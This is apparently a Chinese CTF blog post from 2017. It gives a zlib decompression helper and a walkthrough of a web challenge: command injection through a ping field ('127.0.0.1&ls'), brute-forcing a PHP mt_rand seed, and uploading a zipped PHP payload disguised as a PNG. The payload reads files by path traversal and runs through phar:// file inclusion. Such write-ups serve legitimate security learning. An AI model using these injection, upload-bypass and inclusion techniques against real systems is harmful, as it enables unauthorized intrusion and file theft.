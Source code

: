 ```yaml
---
layout: post
title: 近期笔记
subtitle: 
author: Coink
date: 2017-11-19
---
```


最近隐写里zlib上镜率比较高，解压缩脚本记录下

```python
#! /usr/bin/env python
import zlib
import binascii
IDAT = "xxxxxxxxxxxxxxxxxxx".decode('hex')
result = binascii.hexlify(zlib.decompress(IDAT))
print result
print result.decode('hex')
```

一道命令执行跟文件包含结合的题：

输入会被当作ping命令执行，竖线被过滤，命令长度限制在3个字符以内，尝试127.0.0.1&ls，列出文件

![](https://i.loli.net/2017/11/19/5a1192adca3ad.png)

转到you_find_upload.php，发现一个随机数

![](https://i.loli.net/2017/11/19/5a1192addcc3d.png)

发现是可以查看源码的

![](https://i.loli.net/2017/11/19/5a1192ae0dfc8.png)

base64解码查看源码，尝试跨目录，发现../被过滤。

```php
<?php
        $type = array('gif','jpg','png');
        mt_srand((time() % rand(1,100000)%rand(1000,9000)));
        echo mt_rand();
        if (isset($_POST['submit'])) {
            $check = getimagesize($_FILES['file']['tmp_name']);
            @$extension = end(explode('.',$_FILES['file']['name']));
            if(in_array($extension,$type)){
                echo 'File is an image - ' . $check['mime'];
                $filename = '/var/www/html/web1/upload/'.mt_rand().'_'.$_FILES['file']['name']; 
                move_uploaded_file($_FILES['file']['tmp_name'], $filename);
                echo "<br>\n";
            } else {
                echo "File is not an image";
            }
        }
        if(isset($_GET['p'])){
            if(@preg_match("/\.\.\//",$_GET['p'])){
                echo "too young too simple";
            }
            else{
               @include $_GET['p'].".php";
            }
        }
        ?>
```

上传的文件只检查后缀，白名单三种图片格式，尝试解析漏洞绕过，无果。

解决随机数问题，发现本质就是随机数种子1000-9000，脚本（by YXM）：

```php
<?php
$t = 333347096;
for ($i = 1;$i<=9000;$i++){
    mt_srand($i);
    $r = mt_rand();
    if($r==333347096){
        echo "seed".$i."\n";
        break;
    }
}
mt_srand($i);
echo "check:".mt_rand()."\n";
echo "answer:".mt_rand();
?>
```

随机数问题解决了，尝试使用压缩上传，协议解压，php文件打包成zip，payload：

```php
<?php 
 $file = fopen('../../../../../../../../etc/flag.txt','r');

    if($file){
        while(!feof($file)){
            $line = fgetc($file);
            echo $line;
        }
    }
    fclose($file);
?>

```

抓包，修改zip文件后缀成png，记录随机数，丢到之前的脚本里跑出上传的目录

![](https://i.loli.net/2017/11/19/5a1192ae115bf.png)

seed404 check:718797317 answer:1230306824

接着用phar://协议解压，访问/web1/you_find_upload.php?p=phar://upload/1230306824_1.png/1

得到flag：

![](https://i.loli.net/2017/11/19/5a1192adbd276.png)

